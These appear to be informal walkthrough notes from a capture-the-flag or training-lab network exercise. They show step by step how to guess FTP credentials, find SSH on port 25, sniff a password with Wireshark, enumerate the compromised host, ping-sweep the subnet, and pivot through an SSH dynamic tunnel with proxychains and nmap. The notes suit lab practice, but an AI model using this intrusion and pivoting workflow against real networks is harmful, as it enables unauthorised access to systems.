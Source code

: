 it worked? Yes.
try 'wget -r ftp://10.50.23.190' 
this one didn't work. 
see what you got from the wget for now (http)
ls 10.50.23.190
eom 10.50.23.190/index.html

try to nc it:
nc 10.50.23.190  21
ftp 10.50.23.190
try username: bob
try password: bob

Now that you're in the fpt session:
  ftp> ls
     no info
     > exit
Update your map, show what you've got from the ports you've exploited.
try the port 25. 
nc 10.50.23.190 25
  provided an ssh version! seems like they designed ssh to port 25 instead. 
ssh 10.50.23.190 -p 25
  no success? it says permission denied. BUT, this implies the service is still up and running.
ssh bob@10.50.23.190 -p 25 
  but we don't have the creds for bob... how can we do this?
    sniff and wait on the port with wireshark until somebody tries to telnet in.
  bobs password: password.
  
Now you're in!
enumerate system info. 
  ip addr
    you found the real ip (as opposed to the float, which should never be relied on)
      'ip neig' will get you the ip addresses you have talked to. 
      you can also ping sweep the entire range to get all addresses in the network! try it, at least:
    for i in {1..254}; do (ping -c 1 10.0.0.$i | grep "bytes from" &) ; done
  Now you've got a list of addresses that have been reached. 
Try testing port 443, from bob-host now!
  ss -ntlp

Split screen
  nc 10.50.23.190 443
    it's another fake port... let's move on, or if there's a hint work with it. 
  look for files 
    find / -iname "*.hint" 2>/dev/null
    find / -iname "*.flag" 2>/dev/null
    find / -name "hint*" 2>/dev/null
    ! there was a hint found. 
    cat /srv/ftp/hint.txt
      It gave you a hint. 
dynamic tunnel
ssh bob@10.50.23.190 -p 25 -D 9050 -NT (this will create a dynamic tunnel, 9050 is the port you opened on you local machine)
ss -ntlp 
run:  'proxychains nmap -Pn 10.0.0.101/24 -p 20-23,80 -T5' or 'proxychains nmap -Pn 10.0.0.101-105 -p 20-23,80 -T5' or 'proxychains nmap -Pn 10.0.0.101,124 -p 20-23,80 -T5'

